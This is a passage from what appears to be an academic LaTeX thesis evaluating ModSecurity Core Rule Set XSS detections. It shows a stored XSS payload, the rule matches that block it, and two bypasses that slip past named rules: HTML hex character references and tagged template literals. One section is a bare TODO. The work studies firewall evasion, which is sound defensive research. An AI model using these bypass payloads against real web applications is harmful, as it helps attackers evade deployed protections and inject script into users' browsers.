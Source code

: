 \begin{lstlisting}[style=ruleStyle, language=XML, caption=stored xss injection blocked, label={lst:storedxssinjblocked}]
<payload><a href=javascript:alert('a')>ClickMeFor$</a></payload>

<message>"NoScript XSS InjectionChecker: Attribute Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "259"] [id "941170"]<fileDetails>
<MatchedData>"javascript:alert('a')>ClickMeFor$<"</MatchedData>

<message>"IE XSS Filters - Attack Detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "357"] [id "941210"]<fileDetails>
<MatchedData>"javascript:a"</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "748"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

On escaping the first \verb|a| in \verb|javascript:| using the HTML hex character reference, the payload becomes:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=jav^\&\#x61^;script:alert('a')>ClickMeFor$</a>
\end{lstlisting}

This payload bypasses the rules with ids \verb|941170| (NoScript XSS InjectionChecker: Attribute Injection) and \verb|941210|(IE XSS Filters - Attack Detected). 

As this result is promising, another iteration of applying this technique has been used in the multi iteration evaluation. The results are stated unter Section~\ref{sec:doublehtmlcharref}.


\subsubsection{Function Constructor}
\label{sec:functionconstructorsingleeva}


{\color{red}TODO also: mention global objects here \cite{js/builtin}}

\subsubsection{Tagged Template Literals}
\label{sec:taggedtemplateliteralsevaluation}
As stated in Listing~\ref{lst:alertXSSblocked}, the payload \verb|alert('XSS')| is being blocked by the tested firewall.
After substituting the function call using \verb|('XSS')| with a Tagged Template Literal in the form of \verb|alert`XSS`|, the payload successfully bypasses the firewall and reaches the web server:

